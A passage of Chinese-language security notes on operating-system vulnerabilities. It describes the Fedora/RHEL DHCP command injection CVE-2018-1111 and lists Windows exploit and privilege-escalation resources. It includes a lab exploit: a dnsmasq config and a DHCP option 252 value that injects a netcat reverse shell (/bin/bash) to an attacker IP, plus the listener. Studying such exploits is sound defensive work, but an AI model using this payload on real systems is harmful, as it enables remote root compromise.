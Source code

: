    Fedora 是由 Fedora 项目社区开发、美国红帽（Red Hat）公司赞助的一套基于 Linux 的操作系统。DHCP packages 是其中的一个动态主机配置协议软件包。

    Fedora 28 及之前版本、Red Hat Enterprise Linux 6 和 7 中的 DHCP 包的 NetworkManager integration 脚本存在命令注入漏洞。本地攻击者可通过伪造 DHCP 响应利用该漏洞在系统以 root 权限执行任意命令。

- 相关文章
    - [CVE-2018-1111 复现环境搭建与 dhcp 命令注入](https://www.freebuf.com/articles/web/191884.html)
    - [DHCP 客户端脚本代码执行漏洞分析 (CVE-2018-1111) ](https://xz.aliyun.com/t/2455)

- POC | Payload | exp
    - [knqyf263/CVE-2018-1111](https://github.com/knqyf263/CVE-2018-1111)
    - [kkirsche/CVE-2018-1111](https://github.com/kkirsche/CVE-2018-1111)

- 本地利用方法
    ```
    attacker: kali linux 2018 x64 192.168.71.5
    victim: Centos 7 x64 192.168.71.10
    ```
    ```vim
    vim dnsmasq.conf
    bind-interfaces
    interface=eth0
    except-interface=lo
    dhcp-range=192.168.71.10,192.168.71.20,12h
    dhcp-option=3,192.168.71.5
    dhcp-option=6,192.168.71.5
    log-queries
    log-facility=/var/log/dnsmasq.log
    ```
    ```
    dnsmasq -dC dnsmasq.conf --dhcp-option="252,malayke'&nc -e /bin/bash192.168.71.5 6666 #"
    nc -l -p 6666 -v
    ```
    重启 CentOS 的网络服务,然后 shell 就反弹回来了

---

## Windows

**相关资源**
- [WindowsExploits/Exploits](https://github.com/WindowsExploits/Exploits)- Windows Exploits
- [Ascotbe/Kernelhub](https://github.com/Ascotbe/Kernelhub)

---

### 提权漏洞

**相关文章**
- [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)
- [Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [猫鼠游戏：Windows内核提权样本狩猎思路分享](https://mp.weixin.qq.com/s/j72DUDKS8MX4iA10WBs2XA)
- [Windows 提权汇总](http://ryze-t.com/posts/2022/01/18/Windows-%E6%8F%90%E6%9D%83%E6%B1%87%E6%80%BB.html)
